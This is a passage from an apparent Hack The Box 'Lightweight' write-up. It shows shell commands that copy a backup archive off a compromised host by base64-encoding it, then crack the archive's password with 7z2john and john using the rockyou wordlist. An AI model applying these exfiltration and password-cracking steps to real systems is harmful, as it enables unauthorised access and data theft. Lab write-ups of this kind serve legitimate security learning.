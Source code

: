> **Victime Machine**:

```bash
su ldapuser2
```

> **Attacker Machine**:

```bash
sshpass -p '10.10.14.2' scp 10.10.14.2@10.10.10.119:/home/ldapuser2/user.txt ./backup.7z
# :(
```

> **Victime Machine**:

```bash
base64 -w 0 backup.7z; echo
```

> **Attacker Machine**:

```bash
echo "N3q8ryccAAQm....wEwAA" | base64 -d > backup.7z
md5sum backup.7z
```

> **Victime Machine**:

```bash
md5sum backup.7z
```

<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

If I scan the contents of the archive with `7z`, it looks like it contains the web service files but if I try to extract them I can't as it **is password protected**. There is a tool in **Linux** that allows me to get the hash of the archive, `7z2john`, and then with `john` I can crack the hash using the **rockyou.txt** dictionary (in case the password is covered). After waiting a while I get the password to access the contents of the compressed file.

```bash
file backup.7z
7z l backup.7z
7z x backup.7z
# :(

locate 7z2john
7z2john
7z2john backup.7z
7z2john backup.7z > hash

john -w=$(locate rockyou.txt)                                 # [Tab]
john -w=/usr/share/wordlists/rockyou.txt hash
```
